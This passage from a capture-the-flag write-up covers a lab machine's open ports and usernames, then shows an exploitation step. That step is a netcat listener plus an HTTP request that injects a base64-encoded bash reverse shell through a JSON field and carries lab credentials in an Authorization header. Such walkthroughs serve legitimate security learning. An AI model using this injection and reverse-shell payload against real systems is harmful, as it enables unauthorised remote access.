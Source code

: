 ![writeup.enumeration.steps.7.1](./screenshot07.png)  


### Findings
#### Open Ports
``` {.python .numberLines}
80/tcp    http          Apache httpd 2.4.29
139/tcp   netbios-ssn   Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp   netbios-ssn   Samba smbd 4.7.6-Ubuntu (workgroup: YEAROFTHEFOX)
```
#### Users
``` {.python .numberLines}
ssh: rascal, fox
webapp: rascal
```

\newpage
## Phase #2: Exploitation
1\. We further leverage the command execution vulnerability to get interactive access on the target machine. For this, we first start a local netcat listener and use a bash reverse shell:  
``` {.python .numberLines}
nc -nlvp 4433

POST /assets/php/search.php HTTP/1.1
  Host: 10.10.41.240
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
  Accept: */*
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Referer: http://10.10.41.240/
  Content-Type: text/plain;charset=UTF-8
  Content-Length: 101
  Authorization: Basic cmFzY2FsOmxvdmU=
  Connection: close

  {"target":"\";echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjI2LjE4OS80NDMzIDA+JjE=' | base64 -d | bash \n"}

```
